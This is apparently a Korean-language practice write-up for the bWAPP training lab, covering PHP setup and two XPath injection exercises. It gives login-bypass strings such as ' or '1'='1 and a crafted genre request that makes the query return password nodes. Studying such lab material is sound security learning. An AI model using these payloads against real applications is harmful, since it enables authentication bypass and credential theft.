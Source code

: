 ### bwapp

APM 기반의 실습 사이트이며, YOUTUBE 동영상으로도 실습 방법을 잘 제공하고 있어 매우 유용하다.

XPATH에 대해서는 알려진 자료가 부족하여 여기에 다시 다룬다.


### PHP 설정

직접 APM을 구축하였다면, 여러 설정들로 실습에 난항이 있다.

magic_quotes_gpc = On 일 경우, sql injection 및 싱글쿼트(')사 사용되는 XPATH injection 도 할 수 없다.

magic_quotes_gpc = Off 로 수정하거나, 입력 파라미터가 적용되기 전에 역슬래시를 제거한다.

stripslahes 함수도 써본다.

### XPATH 1

XPATH 관련 실습 과제가 2개가 있는데, 하나는 로그인 우회이다.

이는 SQL Injection과 거의 같다.

' or '1'='1

코드 형태에 따라 첫번째 사용자에 대해서 출력되거나, 입력된 사용자를 출력한다.

사용자를 확인하는 코드라면 {사용자}' or '1'='1 로 수정해야 동작할 것이다.

wolverine' or 'a'='a--

형태로 사용자명을 넣어주면, 원하는 사용자로 로그인 할 수 있다.


### XPATH 2

XPATH 실습 두번째는 union 과 유사하다.

코드에 따라 다르지만, bWAPP에서 제공하는 코드는 contains를 사용하여 vertical bar;|로 조합한다.

실습 코드는 원래 장르에 따른 영화 이름을 출력하지만, 공격 코드는 패스워드를 출력하도록 되어 있다.

이해를 더 하고 싶으면, 서버를 구성하여, 조합된 공격 코드의 전체 구조를 확인하는 것이 좋다.


### XPATH 2 상세 내용

\[코드]

$result = $xml->xpath("//hero[contains(genre, '**$genre**')]/movie");


\[정상요청]

xmli_2.php?genre=**action**&action=search

\[정상 외부 입력]

$xml->xpath(//hero[contains(genre, '**action**')]/movie);


\[공격요청]

xmli_2.php?genre=**action')]/password+|+//hero\[contains(genre,'+horror**&action=search

\[공격 외부 입력]

$xml->xpath(//hero\[contains(genre, '**action')]/password | //hero\[contains(genre,' horror**')]/movie)
